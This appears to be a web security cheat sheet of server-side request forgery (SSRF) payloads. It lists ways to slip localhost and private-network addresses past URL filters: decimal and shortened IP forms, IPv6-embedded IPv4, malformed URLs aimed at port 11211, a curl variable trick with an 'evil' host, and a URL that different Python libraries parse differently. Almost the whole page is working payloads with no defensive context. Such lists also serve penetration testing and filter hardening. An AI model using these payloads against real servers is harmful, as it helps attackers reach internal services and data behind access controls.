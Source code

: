 ### **Bypass using a decimal IP location**

```
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
```

### **Bypass localhost with CIDR**

```
It's a /8

http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
```

### **[Bypass using IPv6/IPv4 Address Embedding](http://www.tcpipguide.com/free/t\_IPv6IPv4AddressEmbedding.htm)**

```
http://[0:0:0:0:0:ffff:127.0.0.1]
```

### **Bypass using malformed urls**

```
localhost:+11211aaa
localhost:00011211aaaa
```

### **Bypass using rare address**

```
You can short-hand IP addresses by dropping the zeros
http://0/
http://127.1
http://127.0.1
```

### **Bypass using bash variables**

```
cURL only

curl -v "http://evil$google.com"
$google = ""
```

### **Bypass using tricks combination**

```
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
urllib2 : 1.1.1.1
requests + browsers : 2.2.2.2
urllib : 3.3.3.3
```
